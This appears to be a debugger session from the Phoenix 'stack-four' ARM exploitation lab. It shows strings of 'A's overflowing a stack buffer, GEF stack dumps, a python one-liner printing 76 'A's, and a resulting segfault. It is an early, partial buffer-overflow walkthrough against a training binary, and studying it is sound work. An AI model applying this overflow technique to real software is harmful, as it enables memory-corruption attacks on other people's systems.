 ```
// A * 78
gef> c
Program received signal SIGSEGV, Segmentation fault.

gef> bt
#0  0x00000000 in ?? ()
#1  0x0001058c in start_level ()

// Breakpoint 0x0001058c
#1  0x000105bc in main ()

gef> r

*************************
Starting program: /opt/phoenix/arm/stack-four
AAAA

───────────────────────────────────────────────────────────────────── stack ────
0xfffefd20│+0x0000: 0xfffefd5f  →  0x7eee400a	 ← $sp
0xfffefd24│+0x0004: "AAAA"
0xfffefd28│+0x0008: 0x00000000
0xfffefd2c│+0x000c: 0xf77eee40  →  0x00000005
0xfffefd30│+0x0010: 0x00010640  →  "Welcome to phoenix/stack-four, brought to you by h[...]"
0xfffefd34│+0x0014: 0x00000000
0xfffefd38│+0x0018: 0x00000036 ("6"?)
0xfffefd3c│+0x001c: 0x00000000

*************************
Starting program: /opt/phoenix/arm/stack-four
AAAAAAAA
───────────────────────────────────────────────────────────────────── stack ────
0xfffefd20│+0x0000: 0xfffefd5f  →  0x7eee400a	 ← $sp
0xfffefd24│+0x0004: "AAAAAAAA"
0xfffefd28│+0x0008: "AAAA"
0xfffefd2c│+0x000c: 0xf77e0000
0xfffefd30│+0x0010: 0x00010640  →  "Welcome to phoenix/stack-four, brought to you by h[...]"
0xfffefd34│+0x0014: 0x00000000
0xfffefd38│+0x0018: 0x00000036 ("6"?)
0xfffefd3c│+0x001c: 0x00000000

gef> x 0xfffefd5f
0xfffefd5f:	0x7eee400a

gef> x/4wx $sp    // you can see inputted string starting to fill the char buffer on the Stack..
0xfffefd20:	0xfffefd5f	0x41414141	0x41414141	0xf77e0000

// Fill up the Stack
// python -c 'print "A"*(76)'
───────────────────────────────────────────────────────────────────── stack ────
0xfffefd20│+0x0000: 0xfffefd5f  →  0x41414141	 ← $sp
0xfffefd24│+0x0004: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xfffefd28│+0x0008: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xfffefd2c│+0x000c: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xfffefd30│+0x0010: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xfffefd34│+0x0014: 0x41414141
0xfffefd38│+0x0018: 0x41414141
0xfffefd3c│+0x001c: 0x41414141

gef> c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
```
